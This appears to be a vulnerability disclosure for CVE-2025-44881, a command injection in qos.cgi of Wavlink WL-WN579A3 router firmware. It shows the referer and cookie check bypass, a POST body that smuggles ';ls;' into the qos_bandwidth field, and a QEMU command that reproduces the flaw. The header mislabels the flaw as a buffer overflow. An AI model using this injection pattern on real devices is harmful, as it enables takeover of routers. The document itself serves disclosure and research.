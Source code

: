 ```yaml
---
title: Remote Command Execution in qos.cgi of wavlink-WL-WN579A3 Device
date: 2025-03-31 16:31:20
tags: cve
---
```




**Affected Product**: Wavlink-WL-WN579A3

**Affected Firmware Versions**:  v1.0

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44881

CNVD:CNVD-2025-11238

# **Description**:

A command injection vulnerability exists in the  configuration management module's CGI script (`./etc/lighttpd/www/cgi-bin/qos.cgi`).The system function executes the concatenated byte_417C84. Since byte_417C84 can be controlled, the command execution vulnerability is triggered and any command can be executed.

![image-20250331163429148](../res/image-20250331163429148.png)



# exploit：



entering the main function, first verify the reference and cookie, check the logic and add environment variables to bypass

```
-E HTTP_REFERER=wifi.wavlink.com
-E HTTP_COOIKE = session=1111111111111
```



![image-20250331164323669](Remote-Command-Execution-in-qos-cgi-of-wavlink-WL-WN579A3-Device.assets/image-20250331164323669.png)

![image-20250331164356744](../res/image-20250331164356744.png)



Tracking the sub_402598 function, we found that when the user enters the parameter page=qos, the sub_401340 function will be entered.



![image-20250331163942040](../res/image-20250331163942040.png)



Continuing the tracking, the program obtains the value of qos_bandwidth from the user input and disassembles it into v12 and v13.

![image-20250331164606840](../res/image-20250331164606840.png)



![image-20250331164647013](../res/image-20250331164647013.png)



Then, v12 and v13 are concatenated to byte_417C84. Therefore, we can control the value of qos_bandwidth to execute the command.



post_data.txt as follows:

```
page=qos&sel_qos=1&qos_bandwidth=;ls;,1
```





Executing within a chrooted QEMU environment:

```
sudo chroot . ./qemu-mipsel-static -E CONTENT_LENGTH=1111 -cpu 74Kf  -g 1234 -E HTTP_REFERER=wifi.wavlink.com -E  HTTP_COOKIE=session=111111111111111  -L ./lib ./etc/lighttpd/www/cgi-bin/qos.cgi < post_data.txt
```



Debugging confirms execution within `system()`

![img](Remote-Command-Execution-in-qos-cgi-of-wavlink-WL-WN579A3-Device.assets/f395600195f417da54958e98433f3110.png)

—the resulting command assembled by the application is:

```
qos_script.sh mode_setup 1 ; ls; 1>/dev/null 2>&1
```

This command not only executes the intended script (`qos_script.sh`) but also the injected `ls` command, which confirms that arbitrary command execution is possible. Given the potential for information disclosure and further system compromise, this issue is critical and should be addressed promptly.
